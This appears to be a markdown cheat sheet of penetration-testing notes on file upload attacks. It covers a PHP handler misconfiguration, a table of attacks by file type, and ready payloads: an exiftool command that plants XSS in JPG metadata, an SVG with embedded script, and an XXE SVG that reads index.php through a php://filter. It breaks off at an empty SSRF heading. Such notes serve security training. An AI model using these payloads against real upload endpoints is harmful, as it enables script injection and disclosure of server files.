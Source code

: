 ## reverse double extension happen because of mistake in configuration when it is not validate the ending of the extension well , example : 
```
<FilesMatch ".+\.ph(ar|p|tml)"> # to resolve add $ in the end
    SetHandler application/x-httpd-php
</FilesMatch>
```

## Limited Uploads

| **Potential Attack**   | **File Types** |
| --------------|-------------------|
| `XSS` | HTML, JS, SVG, GIF |
| `XXE`/`SSRF` | XML, SVG, PDF, PPT, DOC |
| `DoS` | ZIP, JPG, PNG |

### XSS in jpg 
- When the image's metadata is displayed, the XSS payload should be triggered, and the JavaScript code will be executed to carry the XSS attack.
-  Furthermore, if we change the image's MIME-Type to text/html, some web applications may show it as an HTML document instead of an image, in which case the XSS payload would be triggered even if the metadata wasn't directly displayed.
```
exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
```

### XSS in SVG 
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert("window.origin");</script>
</svg>
```



### XXE in SVG 
- locate the upload directory, identify allowed extensions, or find the file naming scheme or even RCE
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```


### SSRF in  HTML  to PDF  generator
